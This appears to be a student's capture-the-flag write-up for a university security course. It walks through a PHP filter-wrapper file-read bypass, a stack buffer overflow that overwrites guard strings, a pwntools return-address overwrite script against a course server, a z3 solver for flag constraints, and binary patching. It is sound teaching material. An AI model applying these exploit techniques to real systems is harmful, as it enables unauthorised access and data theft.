




# CS2107 Assignment 2 Writeup

## E1. README.php
We are given a link and told that the flag is in /flag.txt.

The following code is also given.

```php
<?php
function readFileContent($url) {
    $content = file_get_contents($url);

    // If the content contains "CS2107", block the response
    if (strpos($content, 'CS2107') !== false) {
        return "Hacker detected!!";
    }

    return $content;
}

if (isset($_GET['url'])) {
    $file = $_GET['url'];
    echo readFileContent($file);
} else {
    echo "Supply a URL using the 'url' query parameter.";
}
?>
```

We can see that the query will not return the flag because it contains the string "CS2107". Thus, we ask the server to return an encoded version of the flag.

http://cs2107-challs.nusgreyhats.org:5051/?url=php://filter/convert.base64-encode/resource=/flag.txt gives us the base64 which we just decode to get the flag.


## E2. Minesweeper

The code given has a vuln function as shown:

```c
int vuln() {
    char secret[0x10] = "[REDACTED]";
    char mine1[0x10] = "[REDACTED]";
    char mine2[0x10] = "[REDACTED]";
    char mine3[0x10] = "[REDACTED]";
    char buf[0x20] = "";

    printf("Welcome to the chamber of secrets, how would you pass the trial without knowing any secrets?\n");
    printf("Input secret:\n");
    gets(buf); // i heard i should be reading in more characters than the size of my buffer... so let's just use gets()!
    
    // make sure no mines have been set off!
    if (!strncmp(mine1, "O6FtZhpU6C6BXx16", 0x10) && !strncmp(mine2, "cZiwk5rfGFgPZYP4", 0x10) && !strncmp(mine3, "i165DnHauCmLqRHN", 0x10)) {
        printf("Mines are safe!\n");
        if (!strncmp(buf, secret, 0x10)) {
            printf("What!? Impossible!! How did you guess it!?\n");
            printf("Fine, here's the flag...\n");
            win();
            exit(0);
        } else {
            printf("Haha! You will never guess my secret!\n");
        }
    } else {
        printf("You stepped on a mine!\n");
    }
}
```

We construct the payload using this line to pass all the checks

```python
payload = 'A' * 32 + "i165DnHauCmLqRHN" + "cZiwk5rfGFgPZYP4" + "O6FtZhpU6C6BXx16" + 'A' * 16
```

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAi165DnHauCmLqRHNcZiwk5rfGFgPZYP4O6FtZhpU6C6BXx16AAAAAAAAAAAAAAAA

## E3. Look deeper

Opening the binary in ghidra, we navigate to the main function and see this. We note that both the password and the flag go through this decode function.


This is what we find in the decode function.



 We can just XOR the flag directly to get the answer.

 ## M2. Owoflowed

 We find the address of the owo function, then simply construct the payload by overflowing the buffer then adding the address of owo into the return pointer.
 
 ```python
 from pwn import *

p = remote("cs2107-challs.nusgreyhats.org", 8054)

# Step-by-step construction of the payload
padding = b"A" * 64             # Fill buffer (64 bytes)
frame_pointer = b"B" * 8        # Overwrite saved frame pointer (8 bytes)
owo_address = b"\x66\x11\x40\x00\x00\x00\x00\x00"  # Address of `owo` in little-endian

# Complete payload
payload = padding + frame_pointer + p32(0x0000000000401166)

# print(payload)
#
p.sendline(payload)
response = p.recvall()
print(response)
p.close()
 ```

 ## M3. zzz

 The hint tells us to use the z3 solver library. We use it and construct the solve.

 ```python
 from z3 import *

conditions = [
        "(flag[16] - flag[14] + (flag[0] ^ flag[11]) + (flag[0] ^ flag[14]) + flag[13] - flag[19] == 67) ",
        "(flag[19] + flag[10] + flag[10] + flag[19] + flag[0] - flag[20] + flag[3] - flag[18] == 362) ",
        "(flag[0] - flag[15] + flag[20] + flag[18] == 151) ",
        "(flag[13] - flag[8] + flag[10] - flag[20] + flag[3] - flag[17] == 16) ",
        "(flag[3] - flag[17] + flag[19] + flag[4] + (flag[12] ^ flag[17]) + flag[10] - flag[2] == 240) ",
        "(flag[11] - flag[21] + flag[12] - flag[10] == 99) ",
        "((flag[18] ^ flag[19]) + flag[6] - flag[16] + (flag[5] ^ flag[16]) == 100) ",
        "(flag[6] - flag[13] + (flag[10] ^ flag[15]) + flag[21] - flag[5] == 65) ",
        "((flag[5] ^ flag[3]) + flag[12] - flag[11] + (flag[6] ^ flag[4]) == 173) ",
        "(flag[6] - flag[14] + flag[9] - flag[2] + flag[8] - flag[15] + flag[21] - flag[11] == -11) ",
        "(flag[12] - flag[17] + flag[12] + flag[8] == 276) ",
        "(flag[10] + flag[21] + (flag[19] ^ flag[2]) == 159) ",
        "((flag[5] ^ flag[16]) + flag[16] + flag[3] + (flag[0] ^ flag[16]) == 227) ",
        "(flag[10] + flag[3] + flag[3] - flag[19] + (flag[19] ^ flag[0]) == 79) ",
        "(flag[10] - flag[8] + flag[2] - flag[19] == -49) ",
        "(flag[17] - flag[1] + flag[4] + flag[11] + flag[17] - flag[9] == 151) ",
        "(flag[14] + flag[10] + flag[18] - flag[9] + flag[5] + flag[10] == 279) ",
        "(flag[5] - flag[16] + flag[8] - flag[12] + flag[17] - flag[13] + flag[11] - flag[2] + flag[1] + flag[21] == 13) ",
        "((flag[19] ^ flag[13]) + flag[6] - flag[13] + flag[17] - flag[11] + (flag[16] ^ flag[12]) == 70) ",
        "(flag[4] - flag[16] + (flag[2] ^ flag[7]) == 16) ",
        "(flag[8] - flag[17] + flag[14] - flag[3] + (flag[8] ^ flag[14]) + flag[5] + flag[1] + flag[7] + flag[10] == 440) ",
        "(flag[4] - flag[0] + flag[2] - flag[4] + flag[15] - flag[21] + flag[17] + flag[2] == 152) ",
        "(flag[5] - flag[18] + flag[17] - flag[4] + flag[15] + flag[2] + flag[21] - flag[18] + flag[7] + flag[6] == 299) ",
        "(flag[21] - flag[19] + flag[7] - flag[18] + flag[16] - flag[21] + (flag[12] ^ flag[18]) == 74) ",
        "((flag[10] ^ flag[2]) + flag[2] + flag[7] + flag[20] + flag[13] + (flag[3] ^ flag[16]) + flag[9] + flag[6] == 715) ",
        "(flag[8] - flag[3] + (flag[14] ^ flag[2]) + flag[11] + flag[0] + flag[1] - flag[19] == 259) ",
        "(flag[19] - flag[7] + flag[0] + flag[16] + flag[11] + flag[17] == 372)" ]

flag = [BitVec(f'arr[{i}]', 9) for i in range(22)]
    
s = Solver()

for i in conditions:
    s.add(eval(i))

print(s.check())
print(s.model())

arr = [0] * 22

arr[1] = 51
arr[15] = 82
arr[19] = 100
arr[14] = 102
arr[17] = 51
arr[12] = 116
arr[13] = 95
arr[9] = 98
arr[20] = 33
arr[2] = 95
arr[18] = 78
arr[7] = 89
arr[21] = 49
arr[16] = 105
arr[5] = 95
arr[4] = 115
arr[3] = 49
arr[11] = 83
arr[8] = 95
arr[0] = 122
arr[10] = 51
arr[6] = 109

for i in arr:
    print(chr(i), end="")
```

## H4. Monster

Looking at the file in ghidra I found this `attack` function.



I changed the value of 0x539 in memory to 0x1, attacked twice and got the flag.

